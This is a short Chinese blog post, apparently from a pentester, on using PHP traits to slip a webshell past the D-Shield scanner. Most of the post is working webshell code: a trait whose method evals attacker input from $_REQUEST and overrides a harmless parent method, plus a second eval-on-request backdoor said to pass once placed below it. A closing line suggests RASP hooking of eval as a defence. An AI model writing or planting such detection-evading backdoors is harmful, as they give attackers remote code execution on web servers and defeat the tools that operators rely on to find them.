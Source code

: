 ```yaml
---
title: 利用 PHP Trait 特性绕过 D 盾查杀
date: 2019-07-25 15:14:14
tags: [web, pentest]
---
```


帮着公司审着代码, 发现一个 PHP 挺好玩的特性, 突发奇想, 想看看能不能绕 D 盾, 没想到就成了.

<!--more-->

这个特性已经写在 Title 里面了, 具体可以参考 [php.net](https://www.php.net/traits) 上的介绍,  
说人话就是覆盖方法, 于是我们就可以覆盖父类的方法, 把无害的变成有害的.  

不废话, 直接看 shell 代码

```php
<?php
trait T {
    function dynamic() {
        eval("$this->s");
    }
}

class B {
    function dynamic() {
        echo "I am innocent";
    }

    function __construct() {
        $this->s = $_REQUEST['s'];
    }
}

class C extends B {
    use T;

    function __construct() {
        parent::__construct();
        $this->dynamic();
    }
}

$c = new C();
```

可以看到用 T 的 `dynamic` 覆盖了 B 的 `dynamic`, 导致了代码执行,  
个人猜测是 D 盾不支持 `trait`, 没有把里面的 eval 当成代码, 直接给跳过了.  

![](https://i.loli.net/2019/07/25/5d395c8b9e25359401.png#center)

![](https://i.loli.net/2019/07/25/5d395c8b9b5f447606.png#center)

![](https://i.loli.net/2019/07/25/5d395c8bbdf0329396.png#center)

而且很神奇的是, 在这一段下面放一段本来过不了的, 也能过 D 盾了.

```php
class B {
    public $c;

    function __construct() { 
            $this->c = $_REQUEST['a'];
    }

    function a() {
            eval($this->c);
    }
}
$d = new B();
$d->a();
```

感觉 D 盾内应该有好几种引擎, trait 把其中基于数据流的引擎给搞崩了? 于是也就能过了.  
比较的谜...

最后, PHP 这种动态语言, 静态查杀的难度是真的大...  
特别涉及类, 过 D 盾的姿势非常多, 百度随便搜搜就有一堆. 想要真正防止, 还是靠 rasp 这种技术吧.  
hook eval, 然后检测数据流是否来自 $_POST, $_GET 等等

